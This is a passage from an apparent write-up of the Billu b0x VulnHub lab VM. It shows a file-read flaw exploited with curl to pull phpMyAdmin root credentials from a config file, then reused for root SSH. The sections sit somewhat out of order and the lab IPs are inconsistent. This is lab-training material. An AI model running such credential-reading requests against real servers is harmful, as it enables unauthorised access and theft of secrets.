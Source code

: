 Then you done.

## Low shell: method 2
We then google to find out the location of the config file.
![9-15.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-15.png)

When we get the low priv shell, looking around we found the __phpmyadmin__ config in `/phpmy`. The phpinfo file tells us webroot is `/var/www` putting the two together `/var/www/phpmy` Since we have a read file vulnerability we shall use it to read contents of the file.

    root@marksmith:~# curl -v -d "file=/var/www/phpmy/config.inc.php" http://192.168.109.129/test
    ...
    __$cfg['Servers'][$i]['user'] = 'root';__
    __$cfg['Servers'][$i]['password'] = 'roottoor';__
    $cfg['Servers'][$i]['AllowNoPassword'] = true;
    ....

    ?>

Better still we can

    root@marksmith:~# curl -v -d "file=/var/www/phpmy/config.inc.php" http://192.168.227.140/test 2>&1 | grep -i pass

![9-16.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-16.png)

Using these credentials we can ssh `user:root password:roottoor`  in to the box.
And boom we're in as the root.

 ssh root@192.168.109.129


Then we're in as root.

## Learnings
Its got LFI, re-used credentials from an abandoned CMS and being an old VM at time of writing we can throw some kernel exploits at it.
To exploit this machine we'll need to chain two different exploits.
At the end we'll also include some mitigation strategies. Without much further ado here we go.

[1]: https://www.vulnhub.com/entry/billu-b0x,188/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
